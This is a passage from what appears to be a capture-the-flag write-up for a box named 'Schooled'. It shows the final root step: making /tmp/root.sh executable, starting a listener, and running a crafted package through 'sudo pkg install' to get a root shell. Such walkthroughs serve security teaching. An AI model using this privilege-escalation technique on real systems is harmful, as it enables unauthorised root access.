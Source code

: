 Don't forget to make it executable 
``` bash
$ chmod +x /tmp/root.sh
```

Finally, to get root, start a new listener on the port that you inserted into root.sh and run pkg with sudo

``` bash
$ sudo pkg install -y --no-repo-update ./x-1.0.txz
```
![](Schooled/pkginstall.png)

And we have root
![](Schooled/rootflag.png)